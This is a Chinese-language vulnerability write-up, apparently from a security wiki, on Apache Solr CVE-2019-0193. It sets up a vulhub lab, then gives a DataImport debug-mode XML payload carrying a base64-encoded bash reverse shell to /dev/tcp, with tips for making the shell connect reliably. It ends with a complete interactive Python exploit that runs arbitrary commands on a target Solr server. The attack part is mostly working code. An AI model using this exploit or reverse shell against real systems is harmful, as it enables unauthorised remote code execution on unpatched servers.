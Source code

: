 # Apache Solr 远程执行漏洞 CVE-2019-0193

## 漏洞描述 

2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与`data-config.xml` 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 `dataConfig` 参数中可以包含 script 恶意脚本导致远程代码执行。

## 影响版本

> [!NOTE]
>
> Apache Solr < 8.2.0

## 环境搭建

```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

![](image/solr-1.png)

## 漏洞复现

点击刚刚创建的test进入调试

![](image/solr-2.png)

将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```



注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

>[!NOTE]
>
>bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  
>
>直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell

点击EXecute执行代码

![](image/solr-4.png)

![](image/solr-3.png)

成功反弹shell

## 漏洞利用POC

> [!NOTE]
>
> POC不支持反弹shell，如需反弹shell，请按如上步骤反弹shell

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech         \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mCmd    >>> whoami(命令执行)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    mode_url = target_url + "/solr/" + core_name + "/admin/mbeans?cat=QUERY&wt=json"
    response = requests.request("GET", url=mode_url, timeout=20)
    mode = dict(dict(list(json.loads(response.text)["solr-mbeans"])[1])['/dataimport'])['class']
    if "org.apache.solr.handler.dataimport.DataImportHandler" in mode:
        print("\033[32m[o] 目标Url,Dataimport模块开启\033[0m")
    else:
        print("\033[31m[x] 目标Url,Dataimport模块未开启\033[0m")
        sys.exit(0)

def POC_3(target_url, core_name, cmd):
    vuln_url = target_url + "/solr/" + core_name + "/dataimport"

    headers = {
        'Host': target_url,
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        'Accept': "application/json, text/plain, */*",
        'Accept-Language': "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        'Accept-Encoding': "zip, deflate",
        'Referer': "" + target_url + "/solr/",
        'Content-type': "application/x-www-form-urlencoded",
        'X-Requested-With': "XMLHttpRequest",
        'Content-Length': "1007",
        'Connection': "close"
    }

    payload = """
        command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test&name=dataimport&dataConfig=
        <dataConfig>
          <dataSource type="URLDataSource"/>
          <script><![CDATA[
                  function poc(row){
         var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("%s").getInputStream()));
        var result = [];
        while(true) {
        var oneline = bufReader.readLine();
        result.push( oneline );
        if(!oneline) break;
        }
        row.put("title",result.join("\\n\\r"));
        return row;
        }
          ]]></script>
                <document>
                     <entity name="entity1"
                             url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                             processor="XPathEntityProcessor"
                             forEach="/RDF/item"
                             transformer="script:poc">
                                <field column="title" xpath="/RDF/item/title" />
                     </entity>
                </document>
        </dataConfig>
        """ % cmd

    response = requests.request("POST", url=vuln_url, data=payload, headers=headers, timeout=30)
    try:
        get_message = list(json.loads(response.text)["documents"])[0]
        message = dict(get_message)['title'][0]
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m", message)
    except:
        print("\033[31m[x] 代码执行失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        else:
            POC_3(target_url, core_name, cmd)
```

![](image/solr-5.png)

## 参考文章

[apache solr远程代码执行漏洞(cve-2019-0193)](https://blog.csdn.net/whatday/article/details/106959989?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param)